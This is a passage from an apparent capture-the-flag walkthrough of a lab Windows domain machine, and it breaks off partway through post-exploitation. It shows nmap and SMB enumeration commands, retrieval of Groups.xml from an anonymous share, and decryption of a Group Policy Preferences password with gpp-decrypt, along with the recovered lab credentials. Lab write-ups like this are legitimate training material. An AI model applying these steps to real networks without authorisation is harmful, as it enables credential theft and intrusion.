 ### **Part 1: Enumeration**

1. **Initial Scanning**:
    - Use **Nmap** to identify open ports and services:
        
        ```Shell
        nmap -T5 -p- -sV 10.10.10.100
        ```
        
    - Key Ports of Interest:
        - `445` (SMB)
        - `88` (Kerberos)
        - Domain indicators like DNS (port `53`), LDAP, or Active Directory-related ports.
2. **SMB Enumeration**:
    - Check for shared folders:
        
        ```Shell
        smbclient -L \\10.10.10.100
        ```
        
    - Access the **Replication** share:
        
        ```Shell
        smbclient \\10.10.10.100\Replication -N
        ```
        
3. **Identify Vulnerable Files**:
    - Locate the file `Groups.xml` in the replication folder:
        
        ```Shell
        smb: \> get Groups.xml
        ```
        

---

### **Part 2: Exploiting the GPP Vulnerability**

1. **Decrypting Credentials**:
    - Extract the `CPassword` field from `Groups.xml`.
    - Decrypt the stored password using `gpp-decrypt`:
        
        ```Shell
        gpp-decrypt <CPassword>
        ```
        
2. **Example Decrypted Output**:
    - Username: `Active.htb\Service`
    - Password: `GPPStillStandingStrong2k18`

---

### **Part 3: Using Obtained Credentials**

1. **Post-Exploitation Enumeration**:
    - Authenticate using obtained credentials.
    - Map shares:
        